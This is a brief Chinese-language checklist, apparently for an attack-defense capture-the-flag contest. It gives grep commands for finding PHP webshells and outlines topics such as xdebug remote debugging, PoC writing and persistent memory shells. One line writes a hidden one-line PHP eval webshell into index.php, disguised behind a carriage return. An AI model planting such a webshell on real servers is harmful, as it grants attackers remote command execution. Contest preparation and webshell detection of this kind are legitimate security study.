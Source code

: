 ## 四 清理内置webshell

```
find . -name "*.php" | xargs grep -n 'eval('
find . -name '*.php' | xargs grep -n 'eval('
find . -name '*.php' | xargs grep -n 'assert('
find . -name '*.php' | xargs grep -n 'system('
find . -name '*.php' | xargs grep -n 'shell_exec('
```

```
echo -en '<?php @eval($_POST[c]);?>\r<?php phpinfo();?>'>index.php
```

# 比赛进行时

## 一 攻击

### 上传phpinfo查看是否打开远程调试

```
xdebug.remote_enable = On
xdebug.remote_connect_back = On
```

### 代码审计

```
poc编写 使⽤用攻击框架
漏漏洞洞修补  修补正则
```

### 定向攻击

```
删库跑路
```

### 内存马（不死马）

### 混淆流量

### 漏洞类型

1.自带后门

webshell扫描

## 防护开始

### crontab 相关
